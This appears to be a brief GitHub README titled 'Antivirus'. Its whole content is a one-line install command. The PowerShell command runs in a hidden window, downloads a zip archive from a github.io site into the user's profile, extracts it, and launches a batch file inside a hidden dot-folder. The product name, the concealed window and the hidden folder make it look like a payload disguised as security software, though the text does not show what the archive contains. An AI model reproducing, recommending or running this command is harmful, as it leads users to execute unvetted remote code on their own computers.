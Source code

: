 # Antivirus

powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startcon.bat